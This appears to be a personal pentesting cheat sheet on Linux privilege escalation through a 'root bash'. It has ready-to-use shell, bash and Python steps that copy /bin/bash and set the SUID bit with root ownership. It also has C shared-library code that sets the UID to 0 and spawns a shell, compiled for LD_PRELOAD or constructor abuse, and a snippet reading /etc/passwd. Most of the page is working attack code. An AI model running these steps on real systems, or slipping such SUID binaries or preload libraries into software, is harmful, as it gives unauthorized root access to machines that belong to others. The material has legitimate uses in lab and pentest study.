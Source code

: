 # Root Bash

<div class="row row-cols-lg-2"><div>

A root bash is a (bash) shell that was executed as root. For instance, using an attack vector such as a SUID script, we may run:

```ps
$ cp /bin/bash /tmp/rootbash
$ chown root /tmp/rootbash
$ chmod +s /tmp/rootbash
```
</div><div>

If you are successful, you can use `-p` (and `-i`) to run it:

```ps
$ /tmp/rootbash -p
root@xxx$
```

📚 Replace `root` with another user according to the attack vector.
</div></div>

<hr class="sep-both">

<div class="row row-cols-lg-2"><div>

#### Root Bash (script)

Remember to make it executable using `chmod +x root.sh`.

```bash!
#!/usr/bin/env /bin/bash
cp /bin/bash /tmp/rootbash
chown root /tmp/rootbash
chmod +s /tmp/rootbash
```
</div><div>

#### Root Bash (Python)

The values `0,0` are the UID/GID. `0o4755` means `755` with SUID.

```py
import shutil
import os

source_path = '/bin/bash'
destination_path = '/tmp/rootbash'
shutil.copy2(source_path, destination_path)
os.chown(destination_path, 0, 0)
os.chmod(destination_path, 0o4755)
```
</div></div>

<hr class="sep-both">

## Root Bash Static Library

<div class="row row-cols-lg-2"><div>

Short simplified program.

```c
void _init() {
    setgid(0);
    setuid(0);
    system("/bin/bash");
}
```

Long program.

```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/bash");
}
```
</div><div>

To compile, use:

```shell!
$ gcc -shared -fPIC init.c -o init.so
```

Or, if you are compiling the function `_init`:

```shell!
$ gcc -shared -fPIC init.c -o init.so -nostartfiles
```

⚠️ Remember to ensure that the file is readable by those that need it.

```shell!
$ chmod 777 init.so       # 😏 - avoid it
```

<details class="details-n">
<summary>Read a file in C</summary>

```c
FILE *file = fopen("/etc/passwd", "r");
if (file == NULL) {
    printf("Error opening the file.\n");
    return;
}
char buffer[256];
while (fgets(buffer, sizeof(buffer), file) != NULL) {
    printf("%s", buffer);
}
fclose(file);
```
</details>
</div></div>

<hr class="sep-both">

## 👻 To-do 👻

Stuff that I found, but never read/used yet.

<div class="row row-cols-lg-2"><div>

```c
// gcc -shared -fPIC shell.c -o shell.so
#include<stdio.h>
#include<stdlib.h>

void __attribute__((constructor)) shell();

void main() {};

void shell() {
    system("id");
}

__attribute__ ((__constructor__)) void shell() {
    // ...
}
```
</div><div>
</div></div>